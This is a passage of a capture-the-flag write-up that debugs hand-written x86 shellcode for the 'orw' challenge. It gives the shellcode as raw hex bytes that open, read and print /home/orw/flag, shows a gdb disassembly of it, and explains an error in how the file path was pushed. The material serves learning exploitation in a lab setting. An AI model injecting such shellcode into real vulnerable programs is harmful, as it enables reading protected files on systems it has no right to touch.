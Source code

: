 ```
\xB8\x05\x00\x00\x00\x6A\x00\x68\x66\x6C\x61\x67\x68\x6F\x72\x77\x2F\x68\x6F\x6D\x65\x2F\x68\x00\x00\x2F\x68\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x50\xB8\x03\x00\x00\x00\x5B\xB9\x00\xA1\x04\x08\xBA\x28\x00\x00\x00\xCD\x80\xB0\x04\x31\xDB\xB9\x00\xA1\x04\x08\xCD\x80
```

Even the 2nd attempt is not working. See below for the humiliating defeat. ᕙ(⇀‸↼‶)ᕗ
```
(gdb) x/32i $eax
   0x804a060 <shellcode>:	mov    eax,0x5
   0x804a065 <shellcode+5>:	push   0x67616c66
   0x804a06a <shellcode+10>:	push   0x2f77726f
   0x804a06f <shellcode+15>:	push   0x2f656d6f
   0x804a074 <shellcode+20>:	push   0x682f0000
   0x804a079 <shellcode+25>:	add    bl,ah
   0x804a07b <shellcode+27>:	xor    ecx,ecx
   0x804a07d <shellcode+29>:	xor    edx,edx
   0x804a07f <shellcode+31>:	int    0x80
   0x804a081 <shellcode+33>:	add    bl,al
   0x804a083 <shellcode+35>:	mov    eax,0x3
   0x804a088 <shellcode+40>:	mov    ecx,0x804a100
   0x804a08d <shellcode+45>:	mov    edx,0x28
   0x804a092 <shellcode+50>:	int    0x80
   0x804a094 <shellcode+52>:	mov    al,0x4
   0x804a096 <shellcode+54>:	xor    ebx,ebx
   0x804a098 <shellcode+56>:	mov    ecx,0x804a100
   0x804a09d <shellcode+61>:	int    0x80
   0x804a09f <shellcode+63>:	or     al,BYTE PTR [eax]
   0x804a0a1 <shellcode+65>:	add    BYTE PTR [eax],al
   0x804a0a3 <shellcode+67>:	add    BYTE PTR [eax],al
   0x804a0a5 <shellcode+69>:	add    BYTE PTR [eax],al
   0x804a0a7 <shellcode+71>:	add    BYTE PTR [eax],al
   0x804a0a9 <shellcode+73>:	add    BYTE PTR [eax],al
   0x804a0ab <shellcode+75>:	add    BYTE PTR [eax],al
   0x804a0ad <shellcode+77>:	add    BYTE PTR [eax],al
   0x804a0af <shellcode+79>:	add    BYTE PTR [eax],al
   0x804a0b1 <shellcode+81>:	add    BYTE PTR [eax],al
   0x804a0b3 <shellcode+83>:	add    BYTE PTR [eax],al
   0x804a0b5 <shellcode+85>:	add    BYTE PTR [eax],al
   0x804a0b7 <shellcode+87>:	add    BYTE PTR [eax],al
   0x804a0b9 <shellcode+89>:	add    BYTE PTR [eax],al
```

### Picking up what's left of my dignity

So, I decided to find out where I went wrong. I realised that I made a *grave mistake*:
```
push 0x0
push 0x67616c66
push 0x2f77726f
push 0x2f656d6f
push 0x682f0000
mov ebx, esp    <- The big failure is here
```
That mistake results in `ebx` pointing to `"\0\0/home/orw/flag"`. There are 2 extra `\0`. That is why my program never returned a flag; because the shell could not even open the file.
